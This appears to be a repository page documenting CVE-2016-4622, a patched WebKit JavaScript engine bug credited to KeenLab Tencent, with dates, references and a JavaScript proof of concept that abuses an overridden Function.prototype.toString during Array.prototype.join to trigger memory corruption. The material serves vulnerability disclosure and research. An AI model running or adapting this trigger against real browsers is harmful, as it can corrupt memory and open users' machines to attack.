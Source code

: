 # CVE-2016-4622

- Report: Mar 2016
- Fix: May 2016
- Credit: KeenLab Tencent (Liang Chen, Zhen Feng, wushi), Jeonghoon Shin

## PoC

- PoC by KeenLab

```javascript
var bigArray = [];
var bigNum = 123456789;
var smallNum = 123;
var toStringCount = 0;

function fillBigArrayViaToString(n) {
    var results = [];

    for (var i = 0; i < n; i++)
        fillBigArrayViaToString.toString();

    return results;
}

Function.prototype.toString = function(x) {
    toStringCount++;
    bigArray.push(smallNum);

    if (toStringCount == 2000) {
        var newArray = new Uint32Array(8000);
        for (var i = 0; i < newArray.length; i++)
            newArray[i] = 0x10000000;
    }

    bigArray.push(fillBigArrayViaToString);
    bigArray.push(fillBigArrayViaToString);
    bigArray.push(fillBigArrayViaToString);
    return bigNum;
};

fillBigArrayViaToString(4000).join();

bigArray.length = 4000;

var stringResult = bigArray.join(":");
```

## Reference

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-343/)
- [Apple](https://support.apple.com/ko-kr/HT206565)
- [POC conference ppt](http://www.powerofcommunity.net/poc2016/keen.pdf)
